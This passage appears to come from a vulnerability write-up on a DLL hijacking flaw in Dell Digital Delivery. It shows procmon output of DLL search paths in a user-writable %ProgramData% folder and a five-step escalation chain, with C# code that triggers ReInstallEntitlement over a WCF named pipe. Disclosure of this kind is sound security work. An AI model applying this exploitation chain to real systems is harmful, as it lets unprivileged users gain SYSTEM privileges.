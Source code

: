 The run user for this process is determined by the controllable RunAsUser flag
and, if set to False, runs as `SYSTEM` out of the `%ProgramData%` directory.

During process launch of the `STSetup` process, I noticed the following in
procmon:

```
C:\ProgramData\Dell\Digital Delivery\Downloads\Software\Dell Data Protection _ Security Tools v1.9.1\VERSION.dll
C:\ProgramData\Dell\Digital Delivery\Downloads\Software\Dell Data Protection _ Security Tools v1.9.1\UxTheme.dll
C:\ProgramData\Dell\Digital Delivery\Downloads\Software\Dell Data Protection _ Security Tools v1.9.1\PROPSYS.dll
C:\ProgramData\Dell\Digital Delivery\Downloads\Software\Dell Data Protection _ Security Tools v1.9.1\apphelp.dll
C:\ProgramData\Dell\Digital Delivery\Downloads\Software\Dell Data Protection _ Security Tools v1.9.1\Secur32.dll
C:\ProgramData\Dell\Digital Delivery\Downloads\Software\Dell Data Protection _ Security Tools v1.9.1\api-ms-win-downlevel-advapi32-l2-1-0.dll
```

Of interest here is that the parent directory, `%ProgramData%\Dell\Digital
Delivery\Downloads\Software` is not writable by any system user, but the
entitlement package folders, `Dell Data Protection - Security Tools` in this
case, is.

This allows non-privileged users to drop arbitrary files into this
directory, granting us a DLL hijacking opportunity. 

## Exploitation

Exploiting this requires several steps:

1. Drop a DLL under the appropriate `%ProgramData%` software package directory
2. Launch a new process running an executable signed by Dell
3. Inject C# into this process (which is running unprivileged in userland)
4. Connect to the WCF named pipe from within the injected process
5. Trigger ReInstallEntitlement

Steps 4 and 5 can be performed using the following:

```
PipeServiceClient client = new PipeServiceClient();
client.Initialize();

while (PipeServiceClient.AppState == AppState.Initializing)
  System.Threading.Thread.Sleep(1000);

EntitlementUiWrapper entitle = PipeServiceClient.EntitlementList[0];
PipeServiceClient.ReInstallEntitlement(entitle.ID, false);
System.Threading.Thread.Sleep(30000);

PipeServiceClient.CloseConnection();
```
